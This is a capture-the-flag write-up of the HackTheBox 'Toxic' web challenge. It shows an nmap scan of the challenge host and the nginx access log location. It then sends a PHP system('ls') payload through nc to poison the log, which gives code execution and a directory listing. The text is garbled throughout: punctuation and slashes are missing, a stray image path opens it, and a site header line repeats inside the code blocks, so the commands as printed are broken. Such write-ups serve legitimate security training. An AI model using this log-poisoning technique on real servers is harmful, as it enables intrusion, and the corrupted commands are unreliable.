    highlight bash   
          0xd4y Writeup       business hackthebox challenges web toxic    
      nmap  p 30746 167 99 88 212  sC  sV  Pn  
Host discovery disabled   Pn   All addresses will be marked  up  and scan times will be slower   
Starting Nmap 7 91   https   nmap org   at 2021 05 30 00 50 BST  
Nmap scan report for 167 99 88 212  
Host is up  0 12s latency    
  
PORT      STATE SERVICE VERSION  
30746 tcp open  http    nginx  
  http cookie flags          
      PHPSESSID   
         httponly flag not set  
   http title  Dart Frog
   endhighlight   

Nmap detects the version running on the HTTP service to be nginx  After googling for the location of the file  it was found that the access log is located at  var log nginx access log   3     ftnt3  

   highlight bash   
   var log nginx access log  
167 99 88 212   200  GET   HTTP 1 1       python requests 2 13 0  
   endhighlight   

When a GET request with PHP is performed on the web server  code execution can be observed 

Request 

   highlight bash   
          0xd4y Writeup       business hackthebox challenges web toxic    
      nc 167 99 88 212 30105  
GET   php system  ls       
HTTP 1 1 400 Bad Request  
Server  nginxDate  Sun  30 May 2021 05 44 42 GMT  
Content Type  text html  charset utf 8  
Content Length  150Connection  close  
  
 html   
 head  title 400 Bad Request  title   head   
 body   
 center  h1 400 Bad Request  h1   center   
 hr  center nginx  center   
  body   
  html 
   endhighlight   

Output 

   highlight bash   
   var log nginx access log  
167 99 88 212   200  GET   HTTP 1 1       python requests 2 13 0  167 99 88 212   200  GET   HTTP 1 1       python requests 2 13 0  167 99 88 212   400  GET index html  
index php  
models  
static  
          